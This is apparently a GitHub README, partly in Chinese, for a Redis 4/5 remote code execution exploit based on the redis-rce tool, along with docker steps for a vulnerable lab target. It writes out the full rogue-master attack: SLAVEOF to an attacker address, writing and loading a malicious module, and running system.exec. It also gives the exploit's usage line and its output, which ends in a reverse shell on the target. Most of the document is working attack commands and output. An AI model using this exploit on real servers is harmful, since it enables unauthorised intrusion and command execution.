 # Redis-RCE
### remote code execute for redis4 and redis5


#### python code from https://github.com/Ridter/redis-rce

![](./redis-rce.jpg)
#####  通过加载so文件，扩展新命令system.exec进行 命令执行成功
`strings exp_lin.so |grep sys`

```
system
system.exec
sys_errlist.h
sys_nerr
sys_errlist
_sys_siglist

```

![](./redis-exec.jpg)
![](./redis-exec-result.jpg)

### system.exec
![](./redis-system-exec.jpg)

```
0x01 SLAVEOF 192.168.2.18 8989

0x02 config set dir /tmp

0x03 config set dbfilename exp_lin.so

0x04 MODULE LOAD /tmp/exp_lin.so

0x05 slaveof no one

0x06 system.exec id

���Auid=100(redis) gid=101(redis) groups=101(redis),101(redis)

```
https://raw.githubusercontent.com/RicterZ/RedisModules-ExecuteCommand/master/src/module.c

https://redis-module-redoc.readthedocs.io/en/latest/


### Usage:

`python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so`

```
python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so
test
[*] Connecting to  10.10.20.166:6379...
[*] Listening on 192.168.2.18:21000
[*] Sending SLAVEOF command to server
Accepted connection from 192.168.2.18:3147
[*] Setting filename
[*] Tring to run payload
Accepted connection from 192.168.2.18:21000
[*] Closing rogue server...
Received backconnect, use exit to exit...
$

$ id
uid=100(redis) gid=101(redis) groups=101(redis),101(redis)
$ pwd
/tmp
$ ls
exp_lin.so
exp_osx.so
$


```



### 0x01  docker search redis5
```
docker search redis5
NAME                          DESCRIPTION                                  STARS     OFFICIAL   AUTOMATED
hareemca123/redis5            Redis 5 Alpine                               1                    
pierreprinetti/redis5         An image for redis5 Release Candidates       0                    [OK]
kusanami/redis5.0                                                          0                    
cnbbx/redis5                  redis5                                       0                    
dragonfly201270/redis5                                                     0                    
cffycls/redis5                redis5.0.5                                   0                    
supercaracal/redis5-docker    Redis 5 Container                            0                    [OK]
i3clogic/redis5                                                            0                    
netborg/redis5                Redis 5 for Kubernetes cluster               0                    
libincex/redis5               redis 5.0.3                                  0                    
debbiswal/redis5.0.4_ms_k8s                                                0                    
vadosl/redis5                                                              0                    
arthurepp/redis50m30c5db                                                   0                    
i3clogic/redis5-server                                                     0                    
arthurepp/redis5m3c1db                                                     0                    
rarfaoui/redis5                                                            0                    
damonevking/redis5.0          redis5.0基础镜像                                 0                    
zareefza/redis5                                                            0                    
rajesh6752/redis5                                                          0                    
douyu/redis504                                                             0                    
redis5/tomcat8-mohjen                                                      0                    
redis5/docker-kubernetes                                                   0                    
incu6us/redis5                Redis 5 (beta) to play with a new features   0                    [OK]
yimiding/redis5.05                                                         0                    
jeetkn/centos_redis           centos7 + redis5.0.3+ ReJson + rediSearch    0   
```
### 0x02 docker pull redis5
```
docker pull hareemca123/redis5:alpine
alpine: Pulling from hareemca123/redis5
4fe2ade4980c: Pull complete 
47fa4eeb2853: Pull complete 
4e971ebf579e: Pull complete 
e2187b6a3d91: Pull complete 
b944fad88755: Pull complete 
9b71ca914208: Pull complete 
Digest: sha256:60f6a913f606341be11686f604ef97d79be32d6ee22f5036ea592423e0950ca4
Status: Downloaded newer image for hareemca123/redis5:alpine

```
### 0x03 Start redis5 docker
```
docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine

cf1e25077f6e5f88e6ba6a5ae4bcc17e38c27a28961f52932ad7c77c3fc446d9
```


### 0x04 git clone github.com/Ridter/redis-rce


```
redis-rce# ls
exp_lin.so  exp_osx.so  README.md  redis-rce.py
```
### 参考链接：

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

https://github.com/Ridter
